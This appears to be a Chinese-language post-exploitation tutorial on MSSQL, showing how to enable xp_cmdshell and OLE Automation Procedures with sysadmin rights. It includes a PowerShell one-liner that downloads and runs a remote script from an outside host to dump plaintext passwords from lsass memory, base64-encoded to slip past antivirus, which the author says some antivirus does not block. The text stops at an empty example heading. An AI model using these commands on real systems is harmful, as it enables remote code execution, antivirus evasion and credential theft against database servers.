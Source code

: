 **启用目标mssql的xp_cmdshell**

 xp即eXtended Procedure，MSSQL中以XP打头的系统SP都是扩展存储过程，例如：xp_dirtree、XP_REGREAD，xp_subdirs等，xp_cmdshell 可以传递命令给cmd去执行。为了安全，这个功能在MSSQL中默认是未开放的。

 查询当前sa是否为sysadmin系统管理员角色，默认情况下，只有sysadmin和serveradmin权限才有运行RECONFIGURE 语句的权限，实则开启该存储过程

 从 2008r2 之后的 mssql 版本,如果是全程默认安装，已不再是system或者administrator,而是一个很低的 network 权限。

```
SELECT is_srvrolemember('sysadmin');
exec sp_configure 'show advanced options', 1;reconfigure;
exec sp_configure 'xp_cmdshell',1;reconfigure;
```

实例：

尝试远程加载ps脚本提取主机lsass内存进程中的明文密码

使用System.Text.Encoding类将命令转换成Unicode字节数组,并进行utf_16_le编码，回到目标主机解码运行，实测部分杀软暂时不拦

```
$text = "IEX (New-Object Net.WebClient).DownloadString('https://192.168.1.232/mq.ps1'); Invoke-mq"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
echo $EncodedText
```

![img](https://www.yunzhijia.com/microblog/filesvr/5dab2cb990144e463b1c72f1)

**启用目标** **mssql** **的** **sp_oacreate**

 如果系统中xp_cmdshell组件对应的dll文件被删除或反病毒软件监控,返回`CreateProcess Error Code 5`等问题，依然可以继续使用sp_oacreate存储过程进行命令交互。

sp_oacreate简介

```
参考语法:
sp_OACreate { progid | clsid } , objecttoken OUTPUT [ , context ]
```

progid是要创建的OLE对象的编程标识符（ProgID）。此字符串描述OLE对象的类，其格式为：’ OLEComponent,它是OLE自动化服务器的组件名称,clsid为对象的类标识符 (CLSID)。

此字符串描述该 OLE 对象的类，其形式如下：’{nnnnnnnn-nnnn-nnnn-nnnn-nnnnnnnnnnnn}’

Object是OLE对象的名称,指定的 OLE 对象必须有效并且必须支持 IDispatch 接口。

OUTPUT是返回的对象标记，必须是数据类型为int的局部变量。此对象标记标识创建的OLE对象，并用于调用其他OLE自动化存储过程。

使用sysadmin权限,启用OLE Automation Procedures配置:

```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'Ole Automation Procedures', 1;RECONFIGURE;
```

![img](https://www.yunzhijia.com/microblog/filesvr/5dab2d04b54c8d6b11b3b9c1)

实例:
